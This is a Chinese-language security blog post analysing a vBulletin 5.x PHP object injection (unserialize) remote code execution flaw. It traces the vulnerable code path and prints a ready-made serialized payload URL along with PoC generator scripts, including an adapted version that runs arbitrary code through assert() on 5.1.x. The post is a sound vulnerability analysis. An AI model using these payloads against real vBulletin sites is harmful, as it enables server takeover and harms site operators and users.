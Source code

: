 ```yaml
---
layout: post
title: "unserialize() 实战之 vBulletin 5.x.x 远程代码执行"
tags: [web, php, security]
---
```


近日，vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用 `unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的 Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/1.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

### 一、反序列化触发点跟踪

虽然此次漏洞 `unserialize()` 函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数 `$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的 Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()` 函数来进行相应的模块加载并调用处理函数：

{% highlight php %}
protected function handleAjaxApi()
{
	$routeInfo = explode('/', $_REQUEST['routestring']);

	if (count($routeInfo) < 4)
	{
		throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
	}
	$params = array_merge($_POST, $_GET);
	$this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}
{% endhighlight %}

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()` 函数，原文中所提及的触发点就在此处：

{% highlight php %}
	public function decodeArguments($arguments)
	{
		if ($args = @unserialize($arguments))
		{
			$result = '';
			
			foreach ($args AS $varname => $value)
			{
				$result .= $varname;
{% endhighlight %}

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()` 魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于 `$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行 `foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

{% highlight php %}
	public function rewind()
	{
		if ($this->recordset)
		{
			$this->db->free_result($this->recordset);
		}
{% endhighlight %}

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

{% highlight php %}
	function free_result($queryresult)
	{
		$this->sql = '';
		return @$this->functions['free_result']($queryresult);
	}
{% endhighlight %}

`$this->functions['free_result']` 原本的初始化值为 `mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的 `functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

### 二、利用分析和完善

观察一下原文中提供的 Payload 构造 PoC：

{% highlight php %}
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

通过第一部分的分析，我们已经清楚了整个漏洞的函数调用过程和原因，并且也已经得知哪些参数可以得到控制和利用。因此这里我们修改 `$this->functions['free_result'] = 'assert';` 和 `$this->recordset = 'var_dump(md5(1))';`，最终远程代码执行的的函数则会是 `assert('var_dump(md5(1))')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/2.png)

这个时候其实 RCE 已经非常的顺利了，但是在进行测试的时候却发现了原文所提供的 PoC 只能复现 5.0.x 版本的 vBulletin，而 5.1.x 版本的却不可以。通过本地搭建测试环境，并使用同样的 PoC 去测试，发现在 5.1.x 版本中 `vB_Database` 被定义成了抽象类：

{% highlight php %}
abstract class vB_Database
{
	/**
	 * The type of result set to return from the database for a specific row.
	 */
{% endhighlight %}

抽象类是不能直接进行实例化的，原文提供的 PoC 却是实例化的 `vB_Database` 类作为 `vB_dB_Result` 迭代器成员 `db` 的值，在服务端进行反序列化时会因为需要恢复实例为抽象类而导致失败：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/3.png)

这就是为什么在 5.1.x 版本上 PoC 会不成功的原因。然后要解决这个问题也很容易，通过跟踪调用栈，发现程序在反序列化未定义类时会调用程序注册的 `autoload()` 方法去动态加载类文件。这里 vBulletin 会依次调用 `includes/vb5/autoloader.php` 中的 `_autoload` 方法和 `core/vb/vb.php` 中的 `autoload()` 方法，成功加载即返回，失败则反序列化失败。所以要想继续使用原有 PoC 的思路来让反序列化后会执行 `$this->db->free_result($this->recordset);` 则需要找到一个继承于 `vB_Database` 抽象类的子类并且其源码文件路径能够在 autoload 过程中得到加载。

通过搜索，发现有如下类继承于 `vB_Database` 抽象类及其源码对应的路径：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/4.png)
    
而终代码进行进行 autoload 的时候会解析传递的类名来动态构造尝试加载的源码文件路径：

{% highlight php %}
...省略
	$fname = str_replace('_', '/', strtolower($class)) . '.php';

	foreach (self::$_paths AS $path)
	{
		if (file_exists($path . $fname))
		{
			include($path . $fname);
			if (class_exists($class, false))
			{
				return true;
			}
{% endhighlight %}

上面这段代码存在于第一次调用的 `__autoload()` 里，可以看到对提供的类名以 `_` 进行了拆分，动态构造了加载路径（第二次 autoload() 的过程大致相同），简单分析一下就可以发现只有在反序列化 `vB_Database_MySQL` 和 `vB_Database_MySQLi` 这两个基于 `vB_Database` 抽象类的子类时，才能成功的动态加载其类定义所在的源码文件使得反序列化成功执行，最终才能控制参数进行任意代码执行。

所以，针对 5.1.x 版本 vBulletin 的 PoC 就可以得到了，使用 `vB_Database_MySQL` 或者 `vB_Database_MySQLi` 作为迭代器 `vB_dB_Result` 成员 `db` 的值即可。具体 PoC 如下：

{% highlight php %}
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/5.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

### 三、小结

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/) 在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()` 函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

### 参考

* [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
* [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
* [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
* [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)
